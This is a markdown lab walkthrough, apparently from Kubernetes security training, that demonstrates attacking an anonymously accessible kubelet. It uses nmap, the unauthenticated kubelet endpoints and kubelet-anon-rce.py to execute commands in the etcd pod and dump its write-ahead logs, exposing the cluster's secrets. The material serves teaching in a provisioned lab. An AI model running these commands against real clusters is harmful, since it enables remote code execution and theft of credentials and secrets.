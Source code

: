 # **Attacking a K8s Kubelet**

### * *

-------

#### Step 1:

* Navigate to the `Kubelet Attack` directory on the provisioned server.

```
cd /root/container_training/Kubernetes/Kubelet-Attack
```

* Create a few secrets on the k8s cluster

```commandline
kubectl create ns secret

kubectl create -f secrets.yml

kubectl -n secret get secrets
```

### *Our objective is to compromise the `kubelet`, and steal all configs and secrets by gaining access to `etcd`.*

-------

#### Step 2:

* Fetch the IP of the provisioned server

```commandline
serverip
```

* Run an Nmap Scan on the provisioned server to get the list of port and services.

```commandline
# We're running scan against a single port to save some time, but this might take a while
nmap <IP> -sV -p 10250
```

-------

#### Step 3:

* Once it's identified that port `10250` is open, try accessing the following URLs on the browser and observe the results

```commandline
https://<serverip>:10250/metrics

https://<serverip>:10250/pods

https://<serverip>:10250/runningpods/
```

* Fetch the `etcd` pod name from the list of running pods

* Using [`kubelet-anon-rce.py`](https://github.com/serain/kubelet-anon-rce), let's gain access to the `etcd` pod and run a few commands.

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /etc/kubernetes/pki/etcd/"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /var/lib/etcd/member/wal/"
```

-------

#### Step 4:

* From the `etcd` pod, let's dump all the data!

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000000-0000000000000000.wal" >> etcd_dump1.txt

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000001-00000000000102aa.wal" >> etcd_dump2.txt
```

### *It can be observed that all data is stored in plain text!!*

-------

#### Step 5:

* Delete all the secrets created in *Step 1* by deleting the `secret` namespace

```commandline
kubectl delete ns secret
```

---------

### Reading Material/References:

* https://github.com/serain/kubelet-anon-rce

* https://labs.mwrinfosecurity.com/blog/attacking-kubernetes-through-kubelet/

* https://jakubbujny.com/2018/09/02/what-stores-kubernetes-in-etcd/

* https://coreos.com/etcd/docs/latest/dev-guide/interacting_v3.html

* https://github.com/etcd-io/etcd/blob/7f7e2cc79d9c5c342a6eb1e48c386b0223cf934e/Documentation/admin_guide.md
